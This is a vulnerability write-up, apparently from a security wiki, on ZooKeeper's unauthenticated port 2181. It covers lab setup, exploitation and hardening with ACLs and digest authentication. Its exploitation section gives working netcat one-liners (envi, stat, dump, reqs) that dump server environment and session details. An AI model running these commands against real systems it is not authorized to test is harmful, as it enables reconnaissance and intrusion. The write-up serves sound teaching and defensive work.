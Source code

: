 # Unauthorized Access Vulnerability in ZooKeeper

## Vulnerability Description

ZooKeeper is defaulted to open on port 2181 and without any access control, an attacker can gain a large amount of sensitive information about the system, including the system name and Java environment, by executing the envi command.

## Environment Setup

The default open port for Zookeeper is 2181.

```bash
wget https://archive.apache.org/dist/zookeeper/zookeeper-3.4.10/zookeeper-3.4.10.tar.gz

tar -zxvf zookeeper-3.4.10.tar.gz
cd zookeeper-3.4.10/
cd conf/
vi zoo.cfg
### Configure standalone mode
tickTime=2000
dataDir=/tmp/zookeeper/data
dataLogDir=/tmp/zookeeper/logs
clientPort=2181

bin/zkServer.sh start   //start
### Start the client connection to the server
bin/zkCli.sh -server localhost:2181
```

![image-20220519151558630](../../.gitbook/assets/image-20220519151558630.png)

## Vulnerability Exploitation

The following command can be used to remotely retrieve the environment of the server:

```
echo envi | nc 192.168.32.131 2181
```

![image-20220519151727236](../../.gitbook/assets/image-20220519151727236.png)

stat: Lists statistics about performance and clients connecting.

```
echo stat |nc 192.168.32.131 2181
```

![image-20220519152001117](../../.gitbook/assets/image-20220519152001117.png)

ruok: Tests if the server is running in a non-error state. `echo ruok |ncat 127.0.0.1 2181`

reqs: Lists outstanding requests. `echo reqs |ncat 127.0.0.1 2181`

envi: Prints detailed information about the service environment. `echo envi |ncat 127.0.0.1 2181`

dump: Lists outstanding sessions and ephemeral nodes. `echo dump |ncat 127.0.0.1 2181`

## Fix Recommendations

Prohibit exposing Zookeeper directly to the public network Add access control, choose the corresponding method according to the situation (authenticated user, username and password)

### Bind specified IP access (recommended):

1. Login to zookeeper

```ruby
./zkCli.sh -server <IP>:<port>
```

2. View current permissions:

```undefined
getAcl /
```

3. Add accessible IP

```undefined
setAcl / ip:192.168.1.xx:cdrwa,ip:192.168.1.xx:cdrwa
```

4. Check if it was added normally

```undefined
getAcl /
```

Unauthorized people can also connect, but an error `KeeperErrorCode = NoAuth for /` will be reported when viewing the node, localhost will not work, and only accessible IP can be accessed.

```csharp
[zk: localhost:2181(CONNECTED) 0] ls /
KeeperErrorCode = NoAuth for /
[zk: localhost:2181(CONNECTED) 1] 
```

**Rollback method:** Access using the IP set before:

```ruby
./zkCli.sh -server <IP>:<port>
```

Set to be accessible by everyone:

```undefined
setAcl / world:anyone:cdrwa
```



### Set up authentication

Configure appropriate access permissions for ZooKeeper.

1. Add an authentication user addauth digest username:password in plain text

```css
addauth digest user1:password1 
```

2. Setting permissions

   setAcl /path auth:username:password in clear text:permission

   setAcl /path digest:username:password in encrypted form:permission

```bash
setAcl /test auth:user1:password1:cdrwa 
```

3. Viewing Acl settings

```undefined
getAcl /path 
```